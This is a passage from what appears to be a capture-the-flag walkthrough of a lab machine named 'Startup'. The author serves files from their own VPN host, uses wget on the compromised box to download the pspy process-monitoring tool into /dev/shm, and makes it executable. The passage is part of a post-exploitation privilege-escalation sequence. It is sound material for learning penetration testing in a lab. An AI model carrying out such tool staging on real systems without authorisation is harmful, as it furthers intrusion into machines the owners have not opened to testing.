 I use python3 to start a quick http server: *sudo python3 -m http.server 80*. On the Startup machine I download pspy and execute.

```highlight
lennie@startup:~/scripts$ cd /dev/shm
lennie@startup:/dev/shm$ wget http://(VPN IP)/pspy64
--2020-11-21 12:13:38--  http://(VPN IP)/pspy64
Connecting to 10.8.21.217:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                      100%[=========================================================================================>]   2.94M  1.60MB/s    in 1.8s

2020-11-21 12:13:40 (1.60 MB/s) - ‘pspy64’ saved [3078592/3078592]

lennie@startup:/dev/shm$ chmod +x pspy64 
lennie@startup:/dev/shm$ 
``` 

pspy will now show all the processes running and the users associated.

![pspy](/assets/images/startup/pspy.png)
